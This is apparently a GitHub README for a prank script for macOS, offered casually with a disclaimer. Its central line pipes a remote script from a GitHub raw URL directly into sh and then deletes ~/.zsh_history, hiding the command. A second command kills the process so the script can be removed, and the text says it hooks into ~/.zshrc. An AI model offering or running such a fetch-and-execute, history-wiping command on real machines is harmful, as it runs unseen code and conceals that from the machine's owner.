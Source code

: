 
Hey this is a super funnyscript which work verry well on osx !

I'm not responsible for what you do with this script so make sure you know what you're doing :)

```curl https://raw.githubusercontent.com/vimman/FunnyScript/master/System_input | sh && rm ~/.zsh_history```

Have fun !!!

By the way if you want to get rid of it (wich obviously you would like one day or another...) just use this command and clean your ~/.zshrc
```kill $(ps -A | grep preferences | grep '??' | cut -d ' ' -f 1)```
